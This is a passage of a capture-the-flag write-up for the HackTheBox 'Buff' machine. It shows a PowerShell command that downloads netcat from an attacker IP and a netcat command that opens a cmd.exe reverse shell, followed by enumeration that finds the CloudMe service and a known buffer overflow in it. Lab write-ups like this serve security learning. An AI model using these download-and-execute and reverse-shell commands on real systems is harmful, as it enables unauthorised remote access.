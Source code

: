 On the remote machine I can use the following commands to download and execute netcat in order to give myself a reverse shell :

```
C:\xampp\htdocs\gym\upload> powershell -c "curl.exe http://10.10.14.127/nc.exe -o netcat.exe" 
C:\xampp\htdocs\gym\upload> netcat.exe 10.10.14.127 9001 -e cmd.exe
```

After a while listening , I recieve a reverse shell:

![rev](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/rev.png)

## Lateral Movement

While enumerating the box I came across an interesting **.exe** file under ``C:\Users\shaun\Downloads`` :

```
C:\Users\shaun\Documents>cd ../Downloads
cd ../Downloads

C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   9,756,262,400 bytes free
```

Again , searching the software on **exploitdb** for a possible vulnerability leads to this :

![cloudme](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/cloudme.png)

By the first view, it seems like a **Buffer Overflow** vulnerability laying on **CloudMe** which should probably be listening on a local port on the machine. 

We can confirm that by executing this command :

```
C:\Users\shaun\Downloads>netstat -an | findstr "LISTENING"

  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
  [...]
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING
  TCP    [::]:135               [::]:0                 LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
  [...]
```
